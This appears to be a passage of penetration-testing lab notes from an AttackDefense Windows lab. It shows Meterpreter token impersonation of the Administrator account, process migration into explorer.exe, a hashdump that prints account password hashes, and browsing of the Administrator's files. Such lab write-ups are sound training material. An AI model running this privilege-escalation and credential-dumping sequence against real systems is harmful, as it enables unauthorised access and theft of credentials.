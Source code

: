 <pre class="language-bash"><code class="lang-bash">meterpreter > list_tokens -u
<strong>[-] Warning: Not currently running as SYSTEM, not all tokens will be available
</strong>             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
ATTACKDEFENSE\Administrator
NT AUTHORITY\LOCAL SERVICE

Impersonation Tokens Available
========================================
No tokens available
</code></pre>

* `ATTACKDEFENSE\Administrator` account access token would provide elevated privileges

```bash
meterpreter > impersonate_token "ATTACKDEFENSE\Administrator"
             [-] Warning: Not currently running as SYSTEM, not all tokens will be available
                          Call rev2self if primary process token is SYSTEM
             [+] Delegation token available
             [+] Successfully impersonated user ATTACKDEFENSE\Administrator

meterpreter > getuid
             Server username: ATTACKDEFENSE\Administrator

meterpreter > hashdump
             [-] priv_passwd_get_sam_hashes: Operation failed: Access is denied.
 # current process still has the access token associated with the anti authority account
 # so we have to migrate the process to elevate the privileges
```

```bash
meterpreter > ps
 Process List
 ============
 
  PID   PPID  Name                     Arch  Session  User                         Path
  ---   ----  ----                     ----  -------  ----                         ----
 3624  2016  explorer.exe             x64   1        ATTACKDEFENSE\Administrator  C:\Windows\explorer.exe

meterpreter > migrate 3624
  [*] Migrating from 3440 to 3624...
  [*] Migration completed successfully.

meterpreter > hashdump 
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:5c4d59391f656d5958dab124ffeabc20:::
  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::
  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
```

```bash
meterpreter > cd C:\\
meterpreter > cd Users 
meterpreter > cd Administrator # Administrator now can be access
    Listing: C:\Users\Administrator
    ===============================
    
    Mode              Size     Type  Last modified              Name
    ----              ----     ----  -------------              ----
    40555/r-xr-xr-x   0        dir   2020-11-07 12:52:42 +0530  3D Objects
    40777/rwxrwxrwx   0        dir   2020-11-07 06:14:51 +0530  AppData
    40777/rwxrwxrwx   0        dir   2020-11-07 06:14:52 +0530  Application Data
    40555/r-xr-xr-x   0        dir   2020-11-07 12:52:42 +0530  Contacts
```